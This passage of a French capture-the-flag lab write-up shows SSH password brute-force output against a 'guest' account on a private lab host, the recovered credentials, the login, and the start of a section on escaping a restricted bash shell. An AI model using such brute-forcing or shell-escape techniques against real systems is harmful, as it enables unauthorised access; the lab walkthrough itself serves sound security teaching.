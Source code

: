 ```console
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rag (7 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rah (8 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0rai (9 of 9025 complete)
--snip--
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0r7k (5616 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0r7l (5617 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0r7m (5618 of 9025 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: guest (1 of 1, 0 complete) Password: k1ll0r7n (5619 of 9025 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.101 User: guest Password: k1ll0r7n [SUCCESS]
```

Victoire ! Nous pouvons nous connecter au serveur avec les credentials ```guest:k1ll0r7n``` !

```console
root@blinils:~# ssh guest@192.168.56.101
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ECDSA key fingerprint is SHA256:BMhLOBAe8UBwzvDNexM7vC3gv9ytO1L8etgkkIL8Ipk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.101' (ECDSA) to the list of known hosts.
guest@192.168.56.101's password: 
Last login: Mon Aug  6 16:25:44 2018 from 192.168.56.102
guest@porteus:~$ 
```

## Évasion d'un shell restreint et variable d'environnement PATH

Manque de chance, il s'agit d'un [shell restreint](https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html) (_restricted shell_). Contrairement aux shells habituels, plusieurs restrictions sont mises en place ; citons par exemple l'interdiction de changer de répertoire courant avec la commande ```cd```, l'interdiction de modifier les variables d'environnement ```SHELL```, ```PATH```, ```ENV``` et ```BASH_ENV``` ou encore l'interdiction d'appeler des commandes contenant ```/``` la barre oblique.

```console
guest@porteus:~$ cd /etc
-rbash: cd: restricted

guest@porteus:~$ ls -al
-rbash: /bin/ls: restricted: cannot specify '/' in command names

guest@porteus:~$ sudo
-rbash: sudo: command not found

guest@porteus:~$ /usr/bin/sudo -l
-rbash: /usr/bin/sudo: restricted: cannot specify '/' in command names

guest@porteus:~$ w; whoami; id; uname;
-rbash: w: command not found
-rbash: whoami: command not found
-rbash: id: command not found
-rbash: uname: command not found
```
